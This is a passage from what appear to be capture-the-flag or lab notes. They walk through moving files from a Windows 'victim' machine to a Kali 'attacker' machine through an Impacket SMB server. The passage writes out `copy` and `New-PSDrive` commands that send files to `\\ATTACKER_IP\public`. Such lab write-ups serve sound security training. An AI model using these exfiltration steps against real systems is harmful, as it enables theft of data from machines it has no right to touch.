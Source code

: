 2. **Copy the File to the SMB Share**:
   Use the `copy` command to transfer a file to the SMB share:
   ```cmd
   copy C:\Users\THMBackup\<File_name> \\ATTACKER_IP\public\
   ```
   - Replace `<File_name>` with the file you want to transfer.
   - The file will be copied to `/tmp/share` on your Kali machine.
Using `New-PSDrive` in PowerShell is an alternative method to mount the SMB share on Windows, which can be convenient for file transfers. Here’s how to do it to transfer files from Windows to Kali Linux with an Impacket SMB server.

3. **Disconnect the SMB Share** (Optional): After transferring the file, you can disconnect from the SMB share:
    
    ```cmd
    net use \\10.11.96.245\public /delete
    ```
    
---

### Steps to Transfer Files Using `New-PSDrive` in PowerShell

#### 1. On the Attacker Machine (Kali Linux)

1. **Create a Shared Directory**:
   ```bash
   mkdir /tmp/share
   ```
   This directory will store the files transferred from the Windows machine.

2. **Start the SMB Server with Impacket**:
   Run the Impacket `smbserver.py` script to create an SMB share on Kali:
   ```bash
   python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username <user> -password <pass> public /tmp/share
   ```
   - Replace `<user>` and `<pass>` with a username and password for accessing the share.
   - `public` is the name of the SMB share.
   - `/tmp/share` is the folder path that will be accessible to the Windows machine.

3. **Ensure the SMB Server is Running**:
   Once started, your SMB server should be ready to accept file transfers from the Windows machine.

#### 2. On the Victim Machine (Windows)

1. **Open PowerShell as Administrator**:
   Start PowerShell with administrator privileges to ensure you have the necessary permissions.

2. **Create a New Drive Mapping to the SMB Share**:
   Use the `New-PSDrive` cmdlet to map the SMB share to a drive letter on Windows:
   ```powershell
   New-PSDrive -Name K -PSProvider FileSystem -Root "\\ATTACKER_IP\public" -Credential (New-Object System.Management.Automation.PSCredential("<user>", (ConvertTo-SecureString "<pass>" -AsPlainText -Force)))
   ```
   - Replace `K` with any available drive letter.
   - Replace `ATTACKER_IP` with the IP address of your Kali Linux machine.
   - Replace `<user>` and `<pass>` with the username and password you specified when starting the SMB server.
